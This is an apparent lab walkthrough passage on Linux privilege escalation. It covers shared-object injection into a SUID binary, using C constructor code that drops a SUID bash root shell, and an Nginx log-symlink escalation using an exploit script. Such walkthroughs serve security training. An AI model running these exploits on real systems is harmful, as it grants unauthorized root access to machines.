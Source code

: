 ```text
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

 - Let's try and inject into the last file since it wasn't found.
 - Let's create a new file called `libcalc.c` and input the following code:
```C
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

 - Let's now compile, and move the binary into the location of the file that is trying to be opened (`/home/user/.config/libcalc.so`):
```bash
mkdir /home/user/.config
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c
```

 - Now let's try and try and run the target program again:
```bash
/usr/local/bin/suid-so
```

 - We are now root.


##### Binary Symlinks
 - Vulnerability with older version of Nginx and is to do with the logs it creates.
 - This is useful if we are the `www-data` user and are trying to get `root`.
 - For this to work, the SUID bit needs to be set on `/usr/bin/sudo`

 - Using the find command we can see this is the case on this box:
```text
sh-4.1$ find / -type f -perm -04000 -ls 2>/dev/null

809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
```

 - We can use `linux-exploit-suggester` to see if Nginx is vulnerable, and these use the provided script to attempt escalation:
```bash
./nginxed-root.sh /var/log/nginx/access.log
```
 - For this to work, the Nginx daemon needs to re-open the log file. Either the process needs to be restarted, or the daemon needs to receive the USR1 process signal (which happens daily on Debian based systems). It can be invoked manually with root using the following command:
```bash
invoke-rc.d nginx rotate >/dev/null 2>&1
```
